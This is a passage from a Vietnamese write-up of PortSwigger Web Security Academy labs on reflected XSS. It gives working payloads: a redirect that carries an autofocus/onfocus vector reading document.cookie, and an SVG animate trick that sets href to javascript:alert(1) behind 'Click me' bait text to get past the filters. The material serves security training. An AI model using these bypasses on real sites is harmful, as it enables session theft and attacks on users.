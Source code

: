 Payload
```js
<script>
location = 'https://0ad4006d04fa6ebe801a26de000b000d.web-security-academy.net/?search=%3Cxss+autofocus+tabindex=1+onfocus%3Dalert%28document.cookie%29%3E%3C/xss%3E';
</script>
```
![image](https://hackmd.io/_uploads/B18jLezLa.png)
![image](https://hackmd.io/_uploads/rk128xzLT.png)

# Lab 13: Reflected XSS with event handlers and href attributes blocked
![image](https://hackmd.io/_uploads/HJ0DwxG86.png)

Lab này cũng filter tag
![image](https://hackmd.io/_uploads/SyZGZbGUT.png)

Fuzz được các tag không bị block
![image](https://hackmd.io/_uploads/H1jvObMLp.png)

Tuy nhiên `href` của thẻ `a` thì bị block
![image](https://hackmd.io/_uploads/BkV_zWMLp.png)

Xây dựng payload như sau:

Sử dụng `animate` để thay đổi giá trị của thuộc tính `href`, khi click vào liên kết thì nó sẽ gọi đến hàm `alert()`
```
<animate attributeName=href values=javascript:alert(1) />
```  
Tạo 1 vùng văn bản lừa nạn nhân click vào
```
<text x=20 y=20>Click me</text>
```

Payload cuối cùng
```
<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me</text></a>
```
![image](https://hackmd.io/_uploads/HyOcYZMUT.png)

# Lab 14: Reflected XSS with some SVG markup allowed
![image](https://hackmd.io/_uploads/HyaIwxGUp.png)

Lab này cũng filter tag
![image](https://hackmd.io/_uploads/SkJajgMIa.png)

Brute-force tag hoạt động được, sử dụng [cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) 
![image](https://hackmd.io/_uploads/H1iu3lMUp.png)
![image](https://hackmd.io/_uploads/HkqtTxfLa.png)
Tìm được tag`<animatetransform>`, `<image>`, `<svg>`, `<title>` không bị filter
